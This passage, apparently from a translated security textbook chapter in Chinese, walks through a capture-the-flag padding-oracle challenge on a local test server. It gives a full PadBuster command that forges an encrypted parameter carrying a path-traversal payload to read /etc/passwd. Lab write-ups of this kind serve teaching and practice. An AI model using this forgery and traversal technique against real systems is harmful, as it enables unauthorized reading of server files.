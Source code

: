 图 6.21 – 不同格式的解密数据

我们只是回过头来，使用相同的命令，但在最后加上**plaintext**标志。就这样。PadBuster 让这一切变得*太*简单了：

# padbuster "**http://127.0.0.1/ctf/challenge1/?&c=** 81c14e504d73a84cc6279ab62d3259f6e2a2f52dbc5387d57911ee7565c

5a829" 81c14e504d73a84cc6279ab62d3259f6e2a2f52dbc5387d

57911ee7565c5a829 16 -noiv -encoding 1 -plaintext "lFA5\\C84VQE_T|../../../../../../../../../etc/passwd"

这将输出一个加密值。现在，我们只需将 URL 中的**c=**值替换为以下字符串：

![图 6.22 – 我们需要发送的加密值](img/Figure_6.22_B17616.jpg)

图 6.22 – 我们需要发送的加密值

现在，我们可以将其粘贴到 URL 中并按*Enter*，瞧！——服务器理解了我们的请求：

![图 6.23 – 捕获的标志](img/Figure_6.23_B17616.jpg)

图 6.23 – 捕获的标志
